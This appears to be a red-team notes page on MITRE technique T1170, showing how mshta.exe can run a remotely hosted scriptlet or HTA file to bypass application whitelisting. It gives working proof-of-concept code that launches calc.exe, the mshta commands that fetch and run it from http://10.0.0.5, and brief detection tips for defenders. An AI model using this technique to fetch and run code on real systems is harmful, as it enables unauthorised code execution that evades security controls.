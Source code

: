 ```yaml
---
layout: post
title: "t1170 mshta code execution"
date: 2024-06-18
categories: code-execution
tags: redteam, mitre, killchain, offensivesecurity, cpent, cpts, oscp, exploit
permalink: /code-execution/
---
```


---
description: MSHTA code execution - bypass application whitelisting.
---

# MSHTA

## Execution

Writing a scriptlet file that will launch calc.exe when invoked:

{% code title="http://10.0.0.5/m.sct" %}
```markup
<?XML version="1.0"?>
<scriptlet>
<registration description="Desc" progid="Progid" version="0" classid="{AAAA1111-0000-0000-0000-0000FEEDACDC}"></registration>

<public>
    <method name="Exec"></method>
</public>

<script language="JScript">
<![CDATA[
	function Exec()	{
		var r = new ActiveXObject("WScript.Shell").Run("calc.exe");
	}
]]>
</script>
</scriptlet>
```
{% endcode %}

Invoking the scriptlet file hosted remotely:

{% code title="attacker@victim" %}
```csharp
# from powershell
/cmd /c mshta.exe javascript:a=(GetObject("script:http://10.0.0.5/m.sct")).Exec();close();
```
{% endcode %}

## Observations

As expected, calc.exe is spawned by mshta.exe. Worth noting that mhsta and cmd exit almost immediately after invoking the calc.exe:

![](../../.gitbook/assets/mshta-calc.png)

As a defender, look at sysmon logs for mshta establishing network connections:

![](<../../.gitbook/assets/mshta-connection (1).png>)

Also, suspicious commandlines:

![](../../.gitbook/assets/mshta-commandline.png)

## Bonus

The hta file can be invoked like so:

```csharp
mshta.exe http://10.0.0.5/m.hta
```

![](../../.gitbook/assets/mshta-calc2.png)

or by navigating to the file itself, launching it and clicking run:

![](../../.gitbook/assets/mshta-url.png)

{% code title="http://10.0.0.5/m.hta" %}
```markup
<html>
<head>
<script language="VBScript"> 
    Sub RunProgram
        Set objShell = CreateObject("Wscript.Shell")
        objShell.Run "calc.exe"
    End Sub
RunProgram()
</script>
</head> 
<body>
    Nothing to see here..
</body>
</html>
```
{% endcode %}

## References

{% embed url="https://attack.mitre.org/wiki/Technique/T1170" %}
@spotheplanet
